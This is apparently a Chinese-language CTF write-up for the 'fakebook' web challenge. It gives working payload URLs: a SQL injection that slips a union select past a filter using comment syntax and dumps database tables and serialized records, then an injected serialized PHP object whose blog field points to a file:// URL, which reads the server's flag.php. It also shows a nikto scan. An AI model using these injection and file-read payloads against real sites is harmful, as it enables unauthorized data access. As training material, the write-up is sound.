










# fakebook
## 题目描述
暂无
## 思路
http://220.249.52.133:48086  
点开题目链接，是一个有着登录和注册的页面。登录是登录不进去的，因为没有注册过，然后注册，呈现如下页面：  
  
点进去超链接：  
http://220.249.52.133:48086/view.php?no=1  
  
看到有一个 GET 参数，猜测本题可能有某种注入。  
http://220.249.52.133:48086/view.php?no=1 or 1=1  
没报错，因此，可以注入。现在的问题是，用何种注入？  
***
分析一下，和 no 可以直接访问的数据库应该是这个用户列表，即存着注册用户的信息，而唯一的用户是我们自己注册的，必然没什么卵用。  
因此，考虑以下两种注入，一个是爆破数据库，看看有没有其他可以访问的数据库、表、列，并从中获取有用的信息；第二个是命令行注入，查看同目录下有没有其他可访问的文件。  
***
首先试试爆破，结果被识别出来了，应该是存在过滤，但是不知道哪种，因此都试试，最后发现，是union select 被过滤了，因此，先后用以下三个 url：  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#  
  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database()#  
  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,data,3,4 from users#  
  
出来一个序列化的值，且看到了文件路径。  
暂时还没有什么思路，扫描一下网站目录，看看有什么有价值的信息，用 nikto 扫描：  
```shell
nikto -host http://220.249.52.133:48086/
```
  
扫出来一个 robots.txt，访问一下，发现有个 user.php.bak 文件，访问并下载，看到一段 php 代码：  
```php
<?php
class UserInfo {
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog) {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url) {
        $ch = curl_init(); //初始化一个cURL会话
        curl_setopt($ch, CURLOPT_URL, $url); //设置需要抓取的URL参数
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch); //运行一个URL
        //获取URL的连接资源句柄的信息
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);
        return $output;
    }

    public function getBlogContents () {
        //获取blog信息
        return $this->get($this->blog);
    }

    public function isValidBlog () {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
审计一下，发现，get 函数会获取 blog 的链接，如果访问失败，则会返回404，成功则输出链接内容。  
方法有了，可是访问什么文件呢？用御剑扫描也没有有用的东西：  
  
试试 flag.txt、flag.php 吧，不行就看 wp 了。  
因此构造 payload：  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,2,3,‘O:8:“UserInfo”:3:{s:4:“name”;s:1:“1”;s:3:“age”;i:1;s:4:“blog”;s:29:“file:///var/www/html/flag.php”;}’  
竟然能访问：  
    
查看网页源码，看到有 base64：  
  
解码，得到 flag：  
  
